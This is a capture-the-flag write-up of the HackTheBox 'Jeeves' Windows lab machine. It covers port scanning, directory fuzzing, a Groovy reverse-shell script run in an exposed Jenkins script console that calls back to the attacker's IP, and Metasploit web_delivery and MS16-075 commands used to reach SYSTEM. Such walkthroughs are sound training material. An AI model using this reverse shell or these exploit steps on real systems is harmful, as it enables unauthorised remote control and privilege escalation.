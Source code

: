 ```yaml
---
title: "Jeeves - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Jeeves
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Jeeves
![](https://kar0nx.github.io/assets/images/writeup/709059a710d3d6ff1ba32bf0729ecbb8.webp)

## Reconnaissance

IP: 10.10.10.63
### NMAP

```
nmap -T4 -A -p- 10.10.10.63
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 03:30 EST
Nmap scan report for 10.10.10.63
Host is up (0.031s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2008|Phone (89%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 8.1 Update 1 (85%), Microsoft Windows Phone 7.5 or 8.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m28s, deviation: 0s, median: 4h59m27s
| smb2-time: 
|   date: 2025-03-08T13:31:29
|_  start_date: 2025-03-08T13:27:44
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   31.19 ms 10.10.14.1
2   31.29 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.34 seconds
```

The scan reveals that the machine has 4 open ports: 80- HTTP (Microsoft IIS 10.0), 135- Microsoft Windows RPC, 445- SMB, 50000- HTTP (Jetty 9.4.z-SNAPSHOT)
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308093115.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308093236.png)

I visit the website running on port 80 but can't find anything useful. I begin by exploring directories with ffuf. Found /askjeeves under port 50000

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.63:50000/FUZZ
```

```
http://10.10.10.63:50000/askjeeves/
```

## Gaining Access

When exploring jenkins, I find that it has a script console and it is running Groovy language, so let's search for groovy reverse shell:
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

```
String host="10.10.14.15";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

set nc and execute command:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308094813.png)

We have shell. Grab first flag under:

```
c:\Users\kohsuke\Desktop>type user.txt
```

## Privilege Escalation

I will start with windows exploit suggester:
type systeminfo in our shell and copy output to new file: sys.txt

```
python2 windows-exploit-suggester.py --database 2025-03-08-mssb.xls --systeminfo /root/sys.txt 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308100629.png)

The results suggest that the target is vulnerable to MS16-075, to confirm type

```
whoami /priv
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308094952.png)

I will use metasploit web_delivery module to set up reverse shell

```
use multi/script/web_delivery
options
set lhost tun0
set srvhost tun0
set lport 1337
show targets
set target 2
set payload windows/meterpreter/reverse_tcp
run
```

Once the reverse shell is triggered, I obtain a meterpreter session:

```
sessions 1
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308102150.png)

Escalating Privileges with MS16-075.
I search for the MS16-075 exploit in Metasploit and run it:

```
background
search ms16-075
use 4
set lhost tun0
set lport 1337
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308102523.png)

The exploit grants me SYSTEM-level access. After gaining elevated privileges, I locate the hm.txt file, which contains a message indicating the flag is elsewhere:

```
c:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308102855.png)

https://www.malwarebytes.com/blog/101/2015/07/introduction-to-alternate-data-streams
I then discover that the flag is stored in an Alternate Data Stream (ADS). To retrieve it, I use the following command:

```
more < hm.txt:root.txt
```